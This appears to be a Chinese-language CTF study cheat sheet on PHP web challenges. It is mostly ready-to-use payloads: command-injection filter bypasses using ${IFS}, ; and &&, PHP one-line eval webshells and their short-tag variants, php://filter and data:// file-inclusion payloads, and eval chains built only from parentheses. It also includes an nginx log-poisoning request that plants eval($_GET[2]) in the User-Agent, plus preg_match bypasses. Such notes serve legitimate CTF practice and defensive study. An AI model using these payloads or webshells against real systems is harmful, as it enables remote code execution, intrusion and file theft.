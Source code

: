 # 笔记

<br><br>

* 在逆向(星号)((BYTE*)的时候用宏定义#define BYTE unsigned char即可正常使用

<br>

* system("tac flag.php")用来读取文件内容;

<br>

* ?c=system("tac%20fla(星号)")意思是c=system("tac flag");


<br><br>

* --------------------------------------命令绕过  

<br>

### 黑洞绕过：system($c." >/dev/null 2>&1");
* 它只会让分号后面的指令进入黑洞，所以这里直接绕过

* 双写分号绕过?c=tac f*;ls
* 双写&&绕过?c=tac f*%26%26ls（注：星号被绕过可以用问号）（[0-9]和%的过滤是不会过滤%26之类的）（）

* 带行号绕过?c=nl<fla''g.php%7C%7Cls(此方法可能要右键看源代码)

* 有$的情况下可以重命名flag.php成txt再直接访问:先执行?c=mv${IFS}fla?.php${IFS}a.txt%7C%7Cls 然后使用ls||ls看看有没有命名成功。成功后直接访问a.txt

* 其他注：?c=ls${IFS}/||ls查看根目录（ls /）

* ?c=cp${IFS}/fla?${IFS}/var/www/html/b.txt（将根目录（ls /）下的flag复制到可以直接在url的目录）





### 直接写php时：
* 经典一句话木马：<?php @eval($_POST[a]); ?>
* 短标签（过滤php）绕过：<?=eval($_POST[a]);?>（需要配合user.ini打开权限）
* 过滤[]:<?=eval($_POST{a});?>(改成花括号)
* 过滤分号’；‘：<?=`cat ../flag*`?> <?=`tac ../f*`?> <?=`nl ../flag*`?>查看源码得flag




<br>

### 直接eval()传参时：
* 特殊字符:"$""&"如果只是对c进行过滤，就可以通过包含另一个函数来绕过
* 做题前先看看对谁过滤，再看如何过滤
* c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
* c=include$_GET[1]?>&1=data://text/plain,<?php system("nl flag.php")?>
* c=$nice=include$_GET["url"]?>&url=php://filter/read=convert.base64-encode/resource=flag.php
* 仅括号
* c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));
* c=eval(next(reset(get_defined_vars())));&1=;system("tac%20flag.php");
* c=show_source(next(array_reverse(scandir(pos(localeconv())))));
* c=highlight_file(next(array_reverse(scandir(dir))));
<br>

### 当include(c)时：直接使用协议绕过
* c=data://text/plain,<?php system('tac f*');?>

<br>

#### php被过滤的时候:
* ?c=data://text/plain,<?=system("tac fla*")?>
* 注：include()只会处理<?php>里面的内容

<br>

#### $被过滤的时候:
* ?c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));
* ?c=eval(next(reset(get_defined_vars())));&1=;system("tac%20flag.php");

<br>

#### 日志文件包含：（抓包改UA，在UA末尾加东西）
* 如：
````
GET /?file=/var/log/nginx/access.log HTTP/1.1
Host: 4e9bb3c0-1021-427e-81a3-42e5e6e13c39.challenge.ctf.show
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0<?php eval($_GET[2]);?>       \\在这里改噢
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: UM_distinctid=17ffcdc88eb73a-022664ffe42c5b8-13676d4a-1fa400-17ffcdc88ec82c
Connection: close
````



<br>

* 可以直接命令执行即可也可以用webshell后门工具连接

* ?file=/var/log/nginx/access.log&2=system('ls /var/www/html');phpinfo();

* ?file=/var/log/nginx/access.log&2=system('tac /var/www/html/fl0g.php');phpinfo();


<br>

### 条件竞争漏洞：（相关：2023年孟极光线上赛web）（文件上传，文件包含等都能用）
- [条件竞争](https://www.freebuf.com/articles/web/275557.html)


<br><br>



## php特性绕过


<br>

### preg_match绕过:
* preg_match第二个参数为0时，会将0x开头当作十六进制,0开头当作八进制
* 多行绕过 php%0aPHP(用于多次preg_match)
* strpos($num, "0")意为开头不能为0，只需要加入%0a（换行）或%09（空格）即可绕过

<br>

### 其他总结
* 伪协议绕过:?u=php://filter/read=convert.base64-encode/resource=flag.php(任何打开文件，读取文件的操作都可以使用伪协议绕过)











